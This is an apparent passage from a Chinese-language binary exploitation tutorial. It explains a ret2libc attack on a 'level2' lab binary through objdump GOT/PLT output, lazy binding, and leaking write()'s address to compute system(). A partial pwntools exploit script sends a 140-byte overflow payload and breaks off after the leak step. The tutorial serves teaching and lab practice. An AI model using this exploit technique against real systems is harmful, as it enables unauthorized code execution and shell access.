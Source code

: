 ```
 804833b:   e9 c0 ff ff ff          jmp    8048300 <_init+0x30>

08048340 <write@plt>:
 8048340:   ff 25 0c a0 04 08       jmp    *0x804a00c
 8048346:   68 18 00 00 00          push   $0x18
 804834b:   e9 b0 ff ff ff          jmp    8048300 <_init+0x30>

$ objdump -R level2
//got表
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   read
0804a004 R_386_JUMP_SLOT   __gmon_start__
0804a008 R_386_JUMP_SLOT   __libc_start_main
0804a00c R_386_JUMP_SLOT   write 
```

我们发现除了程序本身的实现的函数之外，我们还可以使用 `read@plt()` 和 `write@plt()` 函数。但因为程序本身并没有调用 `system()` 函数，所以我们并不能直接调用 `system()` 来获取shell。但其实我们有 `write@plt()` 函数就够了，因为我们可以通过 `write@plt ()` 函数把 `write()` 函数在内存中的地址也就是write.got给打印出来。既然write()函数实现是在libc.so当中，那我们调用的 `write@plt()` 函数为什么也能实现 `write()` 功能呢? 这是因为linux采用了延时绑定技术，当我们调用 `write@plit()` 的时候，系统会将真正的 `write()` 函数地址link到got表的 `write.got` 中，然后 `write@plit()` 会根据 `write.got` 跳转到真正的 `write()` 函数上去。（如果还是搞不清楚的话，推荐阅读《程序员的自我修养 - 链接、装载与库》这本书）

因为 `system()` 函数和 `write()` 在libc.so中的offset(相对地址)是不变的，所以如果我们得到了write()的地址并且拥有目标服务器上的libc.so就可以计算出 `system()` 在内存中的地址了。然后我们再将pc指针return回vulnerable_function()函数，就可以进行ret2libc溢出攻击，并且这一次我们知道了 `system()` 在内存中的地址，就可以调用 `system()` 函数来获取我们的shell了。

使用ldd命令可以查看目标程序调用的so库。随后我们把libc.so拷贝到当前目录，因为我们的exp需要这个so文件来计算相对地址：

```
#!bash
$ldd level2 
    linux-gate.so.1 =>  (0xb7781000)
    libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75c4000)
    /lib/ld-linux.so.2 (0xb7782000)
$ cp /lib/i386-linux-gnu/libc.so.6 libc.so 
```

最后exp如下：

```
#!python
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so')
elf = ELF('level2')

#p = process('./level2')
p = remote('127.0.0.1', 10003)

plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x08048404
print 'vulfun= ' + hex(vulfun_addr)

payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

print "\n###sending payload1 ...###"
p.send(payload1)

print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
```